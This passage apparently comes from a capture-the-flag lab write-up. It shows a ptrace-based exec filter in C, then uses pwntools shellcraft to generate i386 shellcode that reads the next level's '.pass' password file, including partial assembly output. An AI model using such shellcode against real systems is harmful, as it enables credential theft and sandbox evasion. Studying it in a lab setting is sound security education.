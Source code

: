```c
        {
            wait(&status);
            if (WIFEXITED(status) || WIFSIGNALED(status)){
                puts("child is exiting...");
                break;
            }

            /* grab the syscall # */
            syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);

            /* filter out syscall 11, exec */
            if(syscall == 11)
            {
                printf("no exec() for you\n");
                kill(child, SIGKILL);
                break;
            }
        }
    }

    return EXIT_SUCCESS;
}


```

Nothing too exciting to see here. Basically, we're given the hint that we should write shellcode to open and read the *.pass* file, since `ptrace` is preventing us from using `/bin/sh` shellcode. That's fine by me. Luckily, there's a [shellcraft function for reading files on an i386 Linux system](http://docs.pwntools.com/en/stable/shellcraft/i386.html#pwnlib.shellcraft.i386.linux.readfile).

Before we fire up an interactive Python session to test this out, let's look at the function header and arguments and discuss what we need to send in.

```python
pwnlib.shellcraft.i386.linux.readfile(path, dst='esi')
```

`Args: [path, dst (imm/reg) = esi ] Opens the specified file path and sends its content to the specified file descriptor.`

Since we want to read the `.pass` file of the next level, the full path of the `.pass` file is `/home/lab3A/.pass`. For `dst`, we need to give it a file descriptor. Then why not `stdout`? `stdout` is usually file descriptor `1`, so we'll set `dst=1` in our argument list. This gives us the following function call:

```python
pwnlib.shellcraft.i386.linux.readfile('/home/lab3A/.pass', 1)
```

Let's test it in an interactive Python session:

```python
Python 2.7.14 (default, Sep 25 2017, 09:53:22) 
[GCC 4.2.1 Compatible Apple LLVM 9.0.0 (clang-900.0.37)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print pwnlib.shellcraft.i386.linux.readfile('/home/lab3A/.pass', 1)
    /* Save destination */
    push 1
    pop edi

    /* push '/home/lab3A/.pass\x00' */
    push 0x73
    push 0x7361702e
    push 0x2f413362
    push 0x616c2f65
    push 0x6d6f682f
```